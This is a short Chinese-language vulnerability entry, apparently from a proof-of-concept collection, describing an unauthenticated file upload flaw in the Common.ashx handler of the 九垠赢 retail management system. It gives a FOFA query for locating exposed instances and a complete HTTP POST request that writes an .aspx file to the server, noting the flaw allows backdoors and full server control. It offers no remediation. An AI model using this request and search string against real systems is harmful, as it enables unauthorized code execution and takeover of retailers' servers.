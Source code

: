 # 九垠赢商业管理系统Common.ashx存在文件上传漏洞
成都和力九垠科技有限公司成立于1999年，是一家专业从事零售业全流程解决方案的高科技公司，总部位于四川成都。多年来，九垠软件不忘初衷，一直致力于中国零售企业的成长与发展，为广大客户提供优秀的零售商业管理软件与优质的金牌售后服务。经过多年的积累与发展，九垠科技已成为中国零售企业管理信息化的领导品牌。

九垠赢+商业管理系统 Common.ashx 存在文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa
```rust
"九垠赢"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1735477150841-8d8d1019-2950-4949-bd1c-b1d1e3d704f8.png)

## poc
```rust
POST /System/Common.ashx?type=savefile&path=test.aspx HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=WebKitFormBoundaryHHaZAYecVOf5sfa6

--WebKitFormBoundaryHHaZAYecVOf5sfa6
Content-Disposition: form-data; name="content";
Content-Type: text/plain

testupload
--WebKitFormBoundaryHHaZAYecVOf5sfa6--
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1735567254760-73f40ebe-e194-443c-ae77-0eba4097f52e.png)

上传位置

```plain
/System/test.aspx
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1735567239364-47dda596-ade7-40ed-89a9-80e60eac5a14.png)

